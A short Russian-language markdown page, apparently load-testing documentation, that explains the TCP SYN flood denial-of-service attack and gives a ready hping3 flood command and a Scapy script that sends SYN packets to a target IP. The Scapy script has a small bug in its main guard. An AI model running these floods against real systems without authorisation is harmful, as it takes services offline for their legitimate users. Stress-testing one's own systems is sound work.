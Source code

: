 # TCP SYN Flood
Техника DoS-атаки, направленная на насыщение сервера ожидающими подтверждениями (SYN) соединениями. В рамках нагрузочного тестирования данной атаки, система подвергается внезапному потоку фальшивых запросов на установление TCP-соединений, что приводит к перегрузке ресурсов и отказу в обслуживании реальных клиентов. Целью тестирования является оценка устойчивости системы к таким массированным атакам и выявление возможных брешей в защите.
```
Attacker          Server
  |   SYN  --------> |
  | <--------  SYN-ACK  |
  |   SYN  --------> |
  | <--------  SYN-ACK  |
  |   SYN  --------> |
  | <--------  SYN-ACK  |
  ```
#### Методы реализации
Для эмуляции TCP SYN Flood можно использовать такие инструменты, как hping3 или Scapy:
```
bash
hping3 -S --flood -p PORT TARGET_IP
```

```
from scapy.all import *

target_ip = "192.168.1.1"  # Замените адресом целевой системы
num_packets = 1000  # Количество фальшивых пакетов для отправки
def syn_flood():
    for _ in range(num_packets):        
        packet = IP(dst=target_ip)/TCP(dport=80, flags="S")  # Формируем SYN пакет
        send(packet, verbose=False)

if name == "__main__":
    syn_flood()    
    print("TCP SYN Flood атака завершена")
```

Если нет вариантов установки стороннего ПО, то есть готовые скрипты на [jmeter]()

